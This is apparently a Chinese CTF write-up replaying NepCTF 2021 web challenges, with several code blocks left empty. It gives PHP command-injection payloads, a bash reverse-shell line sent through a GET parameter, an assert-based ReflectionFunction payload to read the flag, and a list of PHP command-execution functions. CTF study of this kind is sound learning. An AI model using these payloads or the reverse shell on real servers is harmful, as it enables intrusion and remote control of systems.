









nepctf复现
三月 24, 2021
Little_trick
这道题目限制的很死，但是这种题目之前就做过了，可以通过写入文件的方式来读取flag的 。
1 |
|

故通过：
1 | ?nep=`ls>z`;&len=7 |
这里还有第二个解：
1 | ?nep=`$nep`;ls>z&len=7 |
这里其实len=7能做出来应该并非是出题人的本愿，实际上出题人应该是想让人令len=-1
在php中的测试：

解法三没见过：
1 | # -*- coding: UTF-8 -*- |
通过注入的方式把文件写进去
解法4更加易懂：
1 | ?nep=`$_GET[1]`;;&len=-1&1=bash -i >& /dev/tcp/ip/10110 0>&1 |
easy_tomcat
跟VNCTF哪个一样，但是这里咋都弹不出来，先pass
bbxhh_revenge
这题前面感觉就是🤢
最后一步这里感觉还是相当有趣的
1 |
|
出题人说是考察了原生反射的机制（感觉这段时间全都是PHP原生类？），可以去搜一下ReflectionFunction类，利用invokArgs操作，实际上就相当于使用了call_usr_func
出题人的payload：
1 | index.php?a=ReflectionFunction&b=call_user_func&c=invokeArgs&d=array(%27assert%27,%27s%27.%27how_source(\%27/f\%27.\%27lag\%27)%27) |
感觉自己总是不太明白call_user_func能做什么，这里总结一下：
首先书写例子：
1 |
|
经过测试，call_user_func 常用的函数如下：
1.file_get_contents
这个倒是很好理解：

但是同时要注意的有如下细节：
1.该函数允许使用伪协议

2.该函数允许file://协议等等，所以你可以这样操作：

肯定也支持http协议的啦

但是要注意，file_get_contents该函数并不会自带回显，所以该函数只能用于使用有输出的情况
2.assert 7.0版本才可以使用
可以直接命令执行，感觉没啥好说的
3.system
可以直接执行命令了，但是感觉大部分情况也会被ban掉，但是awd说不定用得上呢
4.exec
和system是一样的，但是需要手动的输出出来


5.shell_exec
和exec同理，但是两者之间又有区别。首先两者都需要echo 的输出，但是shell_exec的起点就是当前目录，而exec的起点为之前的目录，故两者间还是有区别的
6.passthru
可以用于读取图片？
不需要echo自己就有回显了

7.pcntl_exec
不是很好用，这个需要执行参数执行命令，例子：
1 | pcntl_exec(“/bin/bash”, array(“/tmp/b4dboy.sh”)); |
但是该函数在7.0已经默认被ban掉了所以并不好用
其他函数命令执行函数：
1 | ob_start()、unserialize()、creat_function() |
查看评论